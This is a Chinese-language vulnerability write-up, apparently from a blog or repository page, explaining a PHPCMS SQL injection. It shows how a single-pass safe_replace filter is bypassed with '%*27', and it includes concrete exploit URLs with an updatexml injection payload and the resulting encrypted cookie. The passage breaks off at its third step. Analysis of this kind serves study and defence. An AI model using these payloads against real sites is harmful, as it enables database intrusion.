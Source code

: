 这里调用了set_cookie 因此我们可以很轻松的得到一个可操控的加密值(注意site_id 调用了intval函数，无法直接传入我们payload, 只能得到整数值)。

整个利用过程我们可以分成三步:

### 第一步 

第一步: 我们访问`http://localhost/index.php?m=wap&a=index&siteid=1` 即可得到一个合法的siteid加密值,把这个siteid替换成userid即可绕过attachement.php中的登录限制


我们接着看swfupload_json函数， json_str是cookie的内容，而json_str又是由这三部分组成
```
$arr['aid'] = intval($_GET['aid']);
$arr['src'] = safe_replace(trim($_GET['src']));
$arr['filename'] = urlencode(safe_replace($_GET['filename']));
$json_str = json_encode($arr);
```

这三个参数， aid用了intval,filename用了urlencode和safe_replace函数，src用safe_replace函数过滤，那么这个函数是否可以绕过呢？  答案是的，我们来看下这个函数的定义，在`phpcms/libs/functions/global.func.php`文件中:

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

函数将敏感字符替换为空，但问题是只执行一次，所以当输入是%*27时*被过滤，进而可以得到%27。 %27 在parse_str函数中被解码成后就可以带入一个单引号了。


### 第二步

我们带着第一步得到的userid的值，访问第二个连接，并且构造我们的payload

    http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&src=&id=%*27 and updat*exml(1,con*cat(1,(us*er())),1)%23&modelid=1&catid=1&m=1&f=
    

在swfupload_json函数中会返回一个响应cookie:`MPkO_att_json=a4ccFfjVcOKqub4EbK66IZvqFPm2zuSaSmrcy-Hzq7RM4eTO9J3Zw7ZUiI8LX5dup9GJWjFQmTjxfJpdp6cvIm5Ps9-HKDXh7eS9Ir1lnZhfrmEtJ8RF9eyjB-GNmojU0fZ4yEacluZaEf3lR_oiBhIGb6mVggA9uaZx3Q6UO1BPW6LDm3M;`

这个加密cookie值就是我们构造的payload, 我们只需要传入开始我们分析的那个$a_k参数中即可触发漏洞:

### 第三步
